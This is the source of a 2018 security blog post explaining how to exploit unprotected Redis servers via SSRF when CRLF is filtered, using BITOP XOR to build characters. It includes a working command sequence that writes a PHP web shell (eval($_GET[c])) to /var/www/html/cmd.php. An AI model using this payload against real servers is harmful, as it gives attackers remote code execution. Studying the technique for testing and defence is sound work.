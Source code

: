 ```yaml
---
layout: post
title: "Redis SSRF exploits without new line"
date: 2018-07-15 16:06:06
tags: ssrf redis gopher
description: How to exploit redis via SSRF without using binary-safe version of redis protocol
comments: true
---
```


## About
There are a lot of articles, describing redis exploitation via http-based protocols. It might be a misconfigured reverse-proxy or SSRF vulnerability - whatever. But at the end every technique faces with one problem - we need to add spaces to our payloads, but sometimes this can be a tricky case.

## Binary-safe redis protocol
**Nicolas Grégoire** in his article ["Trying to hack Redis via HTTP requests"](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) described almost everything you may need to successfully exploit not protected redis server. He also suggested to use [binary-safe version](https://redis.io/topics/protocol) of the redis protocol when we need to add spaces or another special characters into a payload.
It looks something like this:

```text
*1
$8
flushall
*3
$3
set
$1
1
$7
myvalue
```

Each command starts with <b>*</b> followed by number of command parts (keywords + arguments). Before sending each part in binary-safe manner we should specify number of bytes in the following string:
```
$7
myvalue
```
Every line is terminated by by CRLF (```%0d%0a```)

## So, what if we are not allowed to use \r\n?
It might be a bunch of reasons to forbid us to send these vital ```%0d0a```, but we might still need passwords or any other special characters in our payload. Is there another way to create our payload? 
Yes! Lets look into the redis documentation:

[**BITOP**](https://redis.io/commands/bitop) function allows us to perform bitwise operations between multiple keys:
```
BITOP AND destkey srckey1 srckey2 srckey3 ... srckeyN
BITOP OR destkey srckey1 srckey2 srckey3 ... srckeyN
BITOP XOR destkey srckey1 srckey2 srckey3 ... srckeyN
BITOP NOT destkey srckey
```
Using such a wonderful opportunity, we can recreate any character we need using those already available. For example, if we need space character:
```text
_set a1 F
_set a2 f
_BITOP XOR payload a1 a2
```
We'll get a space in our 'payload' at the end. So, now we can save our first php shell:
```text
_FLUSHALL 
_config set dir /var/www/html/ 
_set a1 ZY%16%0E%16F
_set a2 ffffff
_BITOP XOR payload a1 a2
_append payload eval($_GET[c]);%3f>
_config set dbfilename cmd.php 
_save
```
The 'payload' key will hold ```<?php ``` value with vitally needed space after it.

## What else can be useful? 
Have a look at these [redis commands](https://redis.io/commands):

[**SETRANGE**](https://redis.io/commands/setrange) - allows to insert given value to a desired position:
```text
redis>  SET key1 "Hello World"
"OK"
redis>  SETRANGE key1 6 "Redis"
(integer) 11
redis>  GET key1
"Hello Redis"
```

[**SETBIT**](https://redis.io/commands/setbit) - sets or clears the bit at needed offset:
```text
redis>  SETBIT mykey 7 1
(integer) 0
redis>  SETBIT mykey 7 0
(integer) 1
redis>  GET mykey
"\u0000"
```

## References
 - [Redis protocol](https://redis.io/topics/protocol)
 - [Trying to hack Redis via HTTP requests](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)
 - [curl Based SSRF Exploits Against Redis](https://maxchadwick.xyz/blog/ssrf-exploits-against-redis)
 - [From SSRF to getshell with Redis Unauthorized](http://1person.me/2017-12-01-How-to-write-shell-with-redis-unauthorized/)
 - [Redis SSRF](https://xz.aliyun.com/t/1800)
 - [Gopher attack surfaces](https://blog.chaitin.cn/gopher-attack-surfaces/)

### Good luck and happy hacking!